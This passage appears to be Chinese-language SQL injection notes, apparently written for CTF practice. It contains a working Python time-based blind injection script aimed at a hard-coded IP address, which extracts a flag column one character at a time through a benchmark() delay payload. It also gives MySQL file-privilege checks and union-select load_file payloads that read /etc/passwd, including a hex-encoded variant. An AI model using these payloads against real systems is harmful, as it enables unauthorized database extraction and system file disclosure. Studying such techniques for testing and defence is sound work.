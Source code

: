 简单的时间盲注脚本：

```python
#coding:utf-8
import requests
import time
import datetime

url = "http://121.196.108.136"

result = ''
for i in range(0,100):
	for char in range(1,127):
		payload ="admin' and if((ascii(substr((select(group_concat(flag))from(flllllllaggggggg)),{},1)))={},benchmark(20000000,md5('aaa')),0)#".format(i,char)
		data={'usname':payload,'pswd':'123'}
		start = int(time.time())
		r = requests.post(url,data=data)
		response_time = int(time.time()) - start
		if response_time >= 2:
			result += chr(char)
			print('Found: {}'.format(result))
			break
```
[mysql 延时注入新思路](https://xz.aliyun.com/t/2288)
[一篇文章带你深入理解 SQL 盲注](https://www.anquanke.com/post/id/170626)
[一文搞定MySQL盲注](https://www.anquanke.com/post/id/266244)
[MySQL时间盲注五种延时方法 (PWNHUB 非预期解)](https://www.cdxy.me/?p=789)
[heavy-query注入](https://www.jianshu.com/p/b6ad41ff69d0)
[无需“in”的SQL盲注](https://nosec.org/home/detail/3830.html)

#### 文件读写
`file_priv`是对于用户的文件读写权限，若无权限则不能进行文件读写操作
可通过下述payload查询权限：
```sql
select file_priv from mysql.user where user=$USER host=$HOST;
```

> secure_file_priv特性：
> secure_file_priv的值为null时，表示限制mysql不允许导入或导出。
> secure_file_priv的值为某一路径时，表示限制mysql的导入或导出只能发生在该路径下
> secure_file_priv的值没有具体值时，表示不对mysql的导入或导出做限制

三种方法查看当前`secure-file-priv`的值：
```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```

**文件读取**
Mysql读取文件通常使用load_file函数，语法如下：
```sql
union select 1,2,load_file("/etc/passwd")#
union select 1,2,load_file(0x2f6574632f706173737764)#
```
